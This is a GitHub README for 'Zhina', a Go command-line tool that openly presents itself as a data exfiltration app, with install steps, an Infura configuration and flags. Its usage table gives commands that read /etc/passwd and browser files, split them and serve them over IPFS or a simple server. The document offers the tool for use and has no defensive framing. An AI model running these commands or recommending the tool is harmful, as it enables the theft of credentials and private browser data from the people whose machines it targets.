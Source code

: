 ### Zhina



A simple app to exfiltration data with some features.



## Background

![zhina](zhina.png)


Zhina is a tools for exfiltration information and Dedicated to Mahsa Amini and all Iranian boys and girls


## Installation

You can install a few ways:

1. Download the binary for your OS from https://github.com/HadessCS/zhina/releases
1. or use `go install`
   ```
   go install -v github.com/hadesscs/zhina
   ```
1. or clone the git repo and build
   ```
   git clone https://github.com/hadesscs/zhina.git
   cd zhina
   go get -v
   go build
   ```


## Configuration

Create a configuration file called `config.yaml` an example is available below:
```
---
infura:
  PROJECT_ID: [PROJECT_ID]
  API_SECRET_KEY: [API_SECRET_KEY]
```


When zhina runs it checks the current directory for a `config.yaml`, if you wish to use a different configuration file use the command `--config /path/to/file.yaml`


## Command Line Options
```
--all             For all devices
--config string   Configuration file: /path/to/file.yaml, default = ./config.yaml (default "config.yaml")
--debug           Display debugging information
--device string   What device to query, (default: "all")
--displayconfig   Display configuration
--do string       encode64
--path string     Path to Exfiltrate
--serve type           How Exfiltrate
--version         Display version information
--help            Display help
```




##  Example Usage
| Command | Details |
|:--|:--|
| `zhina --do encode64 --path /etc/passwd` | Exfiltrate password file |
| `zhina --path browser --slice slice1M --serve ipfs` | Exfiltrate Browser Files with 1M slice and serve on ipfs |
| `zhina --path /etc/passwd --slice slice1M --serve simple` | Exfiltrate Browser Files with 1M slice and serve on simple |




